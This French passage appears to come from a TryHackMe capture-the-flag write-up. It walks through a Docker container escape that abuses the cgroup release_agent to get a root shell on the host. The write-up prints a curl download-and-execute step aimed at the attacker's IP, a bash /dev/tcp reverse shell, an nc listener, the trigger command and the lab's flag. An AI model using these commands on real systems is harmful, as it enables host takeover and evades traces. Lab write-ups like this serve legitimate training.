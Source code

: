 **Ce que fait ce script :**

- `curl 10.9.2.35/shell.sh` : Télécharge un script de reverse shell depuis ma machine attaquante
- `-o /dev/shm/shell.sh` : Sauvegarde le script dans `/dev/shm` (répertoire temporaire en RAM)
- `chmod +x` : Rend le script exécutable
- `sh /dev/shm/shell.sh` : Exécute le reverse shell

**Pourquoi /dev/shm ?**

- C'est un répertoire accessible en écriture
- Il est souvent disponible sur l'hôte
- Il ne laisse **pas de traces sur le disque** (stockage en RAM)

**Préparation avant lancement final**

Je devais avoir lancé un server python pour récupérer le fichier `shell.sh`

```bash
python3 -m http.server 80
```

Et je devais aussi préparer un `nc` qui écoutais sur n'importe quel port, moi j'ai mis `1234`

```bash
nc -lvnp 1234
```

**Contenu de `shell.sh`**

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.9.2.35/4444 0>&1
```

**Déclenchement de l'exploit**

```bash
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
Ce qui se passe :

- Un processus temporaire est ajouté au `cgroup /tmp/cgrp/x`
- Le processus se termine immédiatement
- Le cgroup devient vide
- Le `release_agent` est déclenché sur l'hôte
- L'hôte exécute `/cmd` avec les privilèges root
- Le script télécharge et exécute `shell.sh`
- On reçoit un shell root sur l'hôte Docker !

```bash
root@dockmagic:/# whoami
root
root@dockmagic:/home/vagrant# cat flag3.txt
THM{dc887d7a23fa028d7892bc85389bc381}
```

> On appel ce genre de faille sur Docker des **Container Escape**
{: .prompt-info} 

**Réponse :** `THM{dc887d7a23fa028d7892bc85389bc381}`